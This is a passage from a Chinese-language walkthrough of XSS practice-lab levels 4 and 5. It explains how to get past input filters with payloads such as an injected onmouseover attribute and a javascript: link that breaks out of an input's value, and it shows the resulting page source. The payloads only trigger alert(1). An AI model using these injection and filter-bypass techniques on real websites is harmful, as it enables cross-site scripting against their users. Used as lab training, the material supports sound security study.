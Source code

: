 ```

可以发现><都被删了，所以此处就不能用script

还是要想着在元素内部就能触发的一种形式，就譬如点击事件

输入："onmouseover="alert(1)      [onmouseover：属性在鼠标指针移动到元素上时触发。]

输出：<input name=keyword  value=""onmouseover="alert(1)">

将鼠标移到输入框即可完成本关
```

#### level-5

```
查看网页源代码

<input name=keyword  value="find a way out!">

可以发现是用双引号闭合起来的

测试网页对哪些参数进行了过滤
 
输入：'><"script onclick   

再次查看网页源代码可以看到

输出：<input name=keyword  value="'><"script o_nclick">

发现onclick中间多了条下划线，所以我们需要改变输入的测试代码

输入：' "<script> onclick

输出：<input name=keyword  value="' "<scr_ipt> o_nclick">

可以发现script也不能用

所以此时我们就需要从Xss-Payload中去测试其他参数看一下行不行了

输入：' "<script> onclick href img src (on都被过滤了，所以onerror自然也就不行，这边就不写了）

输出：<input name=keyword  value="' "<scr_ipt> o_nclick href img">

所以此时可以发现href和img都可以使用（具体xss注入样式看Xss-Payload也就是第四部分）

输入："> <a href=javascript:alert(1)> HelloWorld </a>//   (//在html中是注释符的意思，加上//后面的参数都没掉了，在此处，最末尾的"和>消失了)

输出：<input name=keyword  value=""> <a href=javascript:alert(1)> HelloWorld </a>//">

此时的HelloWorld发现是可被点击，再点击一下HelloWorld，则会跳转到javascript:alert(1)这个语句并执行它，完成本关
```
